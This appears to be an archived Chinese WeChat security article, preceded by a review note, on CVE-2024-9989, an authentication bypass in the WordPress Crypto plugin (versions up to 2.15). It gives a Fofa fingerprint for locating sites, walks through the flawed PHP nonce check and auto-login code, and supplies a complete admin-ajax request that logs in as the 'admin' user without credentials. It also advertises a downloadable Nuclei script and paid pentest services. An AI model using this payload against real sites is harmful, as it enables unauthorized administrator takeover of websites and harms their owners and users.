





## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.15; known existing username; anonymous register method exempt nonce; no active session

- **实验改动边界（1）**：代码全部压一行且有publicfunction缺空格、//注释吞后续代码，原样不可运行/阅读需恢复。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **适用与权限边界（2）**：文字仅强调wallet命中分支，PoC传admin实际还可走username_exists分支，需解释为何无需钱包关联。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：请求整行拼头，成功大小写Success与代码success不同不应用作精确检测。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **来源与引用处置（4）**：源码展示nonce白名单绕过及登录链较完整；无官方修复版/公告，0day推广应去除。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  【首发 1day】WordPress Crypto 插件存在前台任意用户登录漏洞(CVE-2024-9989)   
原创 Mstir  星悦安全   2025-01-03 04:04  
  
  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**WordPress 的 Crypto 插件在 2.15 及以下版本（包括 2.15）中容易受到身份验证绕过攻击。这是由于对 'crypto_connect_ajax_process' 函数中 'crypto_connect_ajax_process：：log_in' 函数的任意方法调用有限。这使得未经身份验证的攻击者可以以站点上的任何现有用户（例如管理员）身份登录（如果他们有权访问用户名）**  
  
**影响版本: <= 2.15**  
  
**Fofa指纹:"wp-content/plugins/crypto/"**  
  
  
  
  
  
**访问 /wp-content/plugins/crypto/README.txt 的 Stable tag 可看到当前版本号**  
  
****  
  
## 0x01 漏洞分析&复现  
  
**位于 /includes/class-crypto_connect_ajax_register.php 中的Log_in 方法存在逻辑缺陷，能直接登录任意用户且无任何授权，导致漏洞产生. (若要登录管理员账号需知用户名)**  
  
****  
```
public function log_in($username)  {    //---------------------Automatic login--------------------    if (!is_user_logged_in()) {      if ($user = get_user_by('login', $username)) {        clean_user_cache($user->ID);        wp_clear_auth_cookie();        wp_set_current_user($user->ID);        wp_set_auth_cookie($user->ID, true, is_ssl());        $user = get_user_by('id', $user->ID);        update_user_caches($user);        do_action('wp_login', $user->user_login, $user);        if (is_user_logged_in()) {          return"success";        } else {          return"fail";        }      }    } else {      return"wrong";    }  }
```  
  
  
****  
**实际在register 方法有调用该Log_in方法，只需要判断 $the_user_id != 0 即可进入其分支，到达 return $this->log_in($user->user_login);**  
  
****  
```
public function register($id, $param1, $param2, $param3)  {    //flexi_log("ame hree" . $param1);    if (!is_user_logged_in()) {      $user_login = trim($param1);      //Check if this wallet is already linked with other account      $the_user_id = $this->get_userid_by_meta('crypto_wallet', trim($param1));      if ($the_user_id != 0) {        //This wallet is already assigned to one of the user        //Log that user in        $user = get_user_by('id', $the_user_id);        return$this->log_in($user->user_login);      } else {        $existing_user_id = username_exists($user_login);        if ($existing_user_id) {          //echo __('Username already exists.', 'crypto_connect_login');          // flexi_log("Username already exists " . $user_login);          return$this->log_in($user_login);        } else {          //  flexi_log("NEw User " . $user_login);          if (is_multisite()) {            // Is this obsolete or not???            // https://codex.wordpress.org/WPMU_Functions says it is?            // But then, the new REST api uses it. What is going on?            $user_id = wpmu_create_user($user_login, wp_generate_password(), '');            if (!$user_id) {              return'error';            }          } else {            $user_id = wp_create_user($user_login, wp_generate_password());            if (is_wp_error($user_id)) {              // echo $user_id;              // flexi_log(" AM into regiseter " . $param1);            }          }          update_user_meta($user_id, 'crypto_wallet', trim($param1));          return$this->log_in($user_login);        }      }    }  }
```  
  
  
****  
**而调用register 方法的其实是crypto_connect_ajax_process 方法，上面的 add_action 方法中插入了可被WP_ajax调用的钩子，同样不需要鉴权，只需要$method_name = register即可**  
  
****  
```
public function __construct()  {    add_action("wp_ajax_crypto_connect_ajax_process", array($this, "crypto_connect_ajax_process"));    add_action("wp_ajax_nopriv_crypto_connect_ajax_process", array($this, "crypto_connect_ajax_process"));  }publicfunction crypto_connect_ajax_process()  {    $id = $_REQUEST["id"];    $nonce = $_REQUEST["nonce"];    $param1 = $_REQUEST["param1"];    $param2 = $_REQUEST["param2"];    $param3 = $_REQUEST["param3"];    $method_name = $_REQUEST["method_name"];    $response = array(      'error' => false,      'msg' => 'No Message',      'count' => '0',    );    $system_nonce = wp_create_nonce('crypto_ajax');    //  flexi_log($nonce . "---" . $system_nonce);    if (wp_verify_nonce($nonce, 'crypto_ajax') || $method_name == 'register'  || $method_name == 'check') {      $msg = $this->$method_name($id, $param1, $param2, $param3);      // flexi_log("PASSED");    } else {      $msg = "System error";      //  flexi_log("FAIL " . $method_name);    }    $response['msg'] = $msg;    echo wp_json_encode($response);    die();  }
```  
  
  
****  
**Payload:**  
  
****  
```
GET /wp-admin/admin-ajax.php?action=crypto_connect_ajax_process&method_name=register&param1=admin HTTP/1.1Host: 127.0.0.1Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: close
```  
  
  
  
  
**成功会显示Success 并赋予Cookie 然后再访问/wp-admin 即可登入管理账号.**  
  
  
  
利用脚本:  
  
  
## 0x02 Nuclei脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
Nuclei脚本  
**关注公众号发送 250103 获取!**  
  
  
  
****  
**进公开群，代码审计，众测，驻场，渗透测试，攻防演练，CNVD证书全网最低价+VX: Lonely3944**  
  
****  
  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
